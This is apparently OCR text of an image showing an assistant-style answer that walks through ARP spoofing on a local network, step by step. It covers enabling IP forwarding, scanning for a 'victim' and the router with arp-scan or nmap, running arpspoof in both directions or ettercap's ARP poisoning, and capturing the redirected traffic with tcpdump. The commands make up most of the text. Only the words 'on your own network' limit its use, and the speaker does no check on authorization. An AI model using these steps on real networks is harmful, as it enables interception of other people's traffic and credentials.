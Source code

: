 Here’s how to perform ARP spoofing on your own network using ettercap or arpspoof.

1. Enable IP Forwarding
Allows traffic to pass through your machine:

bash
echo 1 > /proc/sys/net/ipv4/ip_forward
2. Identify Targets
Find your router and victim's IP addresses:

bash
arp-scan --localnet  # or
nmap -sn 192.168.1.0/24
3. Launch ARP Spoofing Attack
Using arpspoof
Open two terminals:

Spoof the victim:
bash
arpspoof -i wlan0 -t [VICTIM_IP] -r [ROUTER_IP]
Spoof the router:
bash
arpspoof -i wlan0 -t [ROUTER_IP] -r [VICTIM_IP]
Using ettercap
Start GUI:

bash
ettercap -G
Select unified sniffing → Choose your network interface.
Scan for hosts → Add router & victim to target list.
Start MITM ARP poisoning.
4. Capture Traffic
Use Wireshark or tcpdump:

bash
tcpdump -i wlan0 -n
To stop the attack, press Ctrl + C and disable IP forwarding:

bash
echo 0 > /proc/sys/net/ipv4/ip_forward
Let me know if you need more details!